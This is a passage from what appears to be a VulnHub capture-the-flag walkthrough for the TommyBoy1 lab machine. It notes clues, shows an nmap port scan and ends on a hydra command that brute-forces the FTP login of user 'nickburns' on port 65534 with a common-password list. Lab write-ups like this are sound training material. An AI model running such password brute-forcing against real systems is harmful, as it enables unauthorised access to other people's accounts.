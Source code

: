 	![](images/Pasted%20image%2020220118161803.png)
	- Useful Information 
		- A backup file called `callahanbak.bak`
		- FTP Server that goes online for 15 minutes then down for 15 minutes
		- A user called `nickburns` whose password is easy to guess
16. Do an NMAP Scan again
	```
	PORT      STATE SERVICE
	22/tcp    open  ssh
	80/tcp    open  http
	8008/tcp  open  http
	65534/tcp open  unknown
	```
	- 65534 wasn't up in the initial scan, it is likely the FTP Server
17. Bruteforce
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/exploit/bruteforce]
	└─# hydra -l nickburns -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt ftp://$ip -s 65534 -e nsr 